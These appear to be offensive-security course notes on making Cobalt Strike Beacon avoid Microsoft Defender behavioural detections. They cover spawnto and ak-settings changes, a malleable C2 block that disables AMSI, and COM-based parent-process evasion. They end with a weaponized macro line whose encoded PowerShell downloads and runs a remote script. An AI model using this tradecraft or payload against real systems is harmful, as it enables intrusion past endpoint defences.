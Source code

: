 # MS Defender (part 2)

## Behavioural Detections

When dealing with behavioural detections, the Defender alerts contain:

    Resources                      : {behavior:_pid:4964...

The Beacon on the file server runs inside the rundll32 process. When CS runs a post-ex command that uses the [fork & run](https://hstechdocs.helpsystems.com/manuals/cobaltstrike/current/userguide/content/topics/appendix-a_beacon-opsec-considerations.htm) pattern, it:

1. Spawns a sacrificial process (rundll32 by default -- now a common point of detection)
2. Injects the post-ex capability into it
3. Retrieves the output over a named pipe
4. Kills the process

Main reason is so that unstable post-ex tools don't crash the Beacon.

The service binary payload used by psexec also uses rundll32 by default, which is why Beacons run as rundll32.exe. The process used for post-ex commands and psexec can be changed on the fly in the CS GUI; use the spawnto command. x86 and x64 must be specified individually and environment variables can also be used.

    beacon> spawnto x64 %windir%\sysnative\dllhost.exe
    beacon> spawnto x86 %windir%\syswow64\dllhost.exe

Use the sysnative and syswow64 paths -- not system32. Using powerpick to get its own process name, it returns dllhost.

    beacon> powerpick Get-Process -Id $pid | select ProcessName
    ProcessName
    -----------
    dllhost    

powerpick + PowerView run on the file server without being caught by AMSI or behavioural detection:

    beacon> run hostname
    fs
    beacon> powershell-import C:\Tools\PowerSploit\Recon\PowerView.ps1
    beacon> powerpick Get-Domain

Use the ```spawnto``` command without any argument to reset back to default.

Set this inside malleable C2 with the spawnto_x64 or spawnto_x86 directives inside the post-ex block. New Beacons use this as their new default:

    post-ex {
            set amsi_disable "true";
            set spawnto_x64 "%windir%\\sysnative\\dllhost.exe";
            set spawnto_x86 "%windir%\\syswow64\\dllhost.exe";
    }

When moving laterally with psexec, Beacon attempts to use the setting from your malleable C2 profile. However, it cannot use environment variables (such as %windir%), so will fall back to rundll32. Override this at runtime with ak-settings to specify an absolute path instead:

    beacon> ak-settings spawnto_x64 C:\Windows\System32\dllhost.exe
    beacon> ak-settings spawnto_x86 C:\Windows\SysWOW64\dllhost.exe

Can also change the name of the service (rather than 7 random characters) with ```ak-settings service <name>```. Lateral movement with psexec will then land us in dllhost.exe.

## Parent/Child Relationships

A subset of behavioural detections come from the parent/child relationships of running processes. A process only has one parent but can have many children. Applications such as [Process Hacker](https://processhacker.sourceforge.io) show these relationships. Most user apps run as children of Explorer. Many parent/child relationships are considered highly suspicious or outright malicious; e.g. our initial access payload. Since we executed a PowerShell one-liner via an Office macro, the instance of powershell.exe becomes a child of winword.exe. Defender blocks such things because Word spawning PS is a well-known phishing tactic.

One workaround is to execute PS without it becoming a child of Word. A simple way is with COM. Like COM objects in the DCOM lateral movement module, COM can be used for local execution. Both ShellWindows and ShellBrowserWindow spawn processes under Explorer. A simple example of spawning a hidden PS process using ShellWindows:

    Set shellWindows = GetObject("new:9BA05972-F6A8-11CF-A442-00A0C90A8F39")
    Set obj = shellWindows.Item()
    obj.Document.Application.ShellExecute "powershell.exe", Null, Null, Null, 0

The arguments for ShellExecute are [documented](https://learn.microsoft.com/en-gb/windows/win32/shell/shell-shellexecute).

A weaponized example:

    Set shellWindows = GetObject("new:9BA05972-F6A8-11CF-A442-00A0C90A8F39")
    Set obj = shellWindows.Item()
    obj.Document.Application.ShellExecute "powershell.exe", "-nop -enc aQBlAHgAIAAoAG4AZQB3AC0AbwBiAGoAZQBjAHQAIABuAGUAdAAuAHcAZQBiAGMAbABpAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQAcwB0AHIAaQBuAGcAKAAiAGgAdAB0AHAAOgAvAC8AbgBpAGMAawBlAGwAdgBpAHAAZQByAC4AYwBvAG0ALwBhACIAKQA=", Null, Null, 0

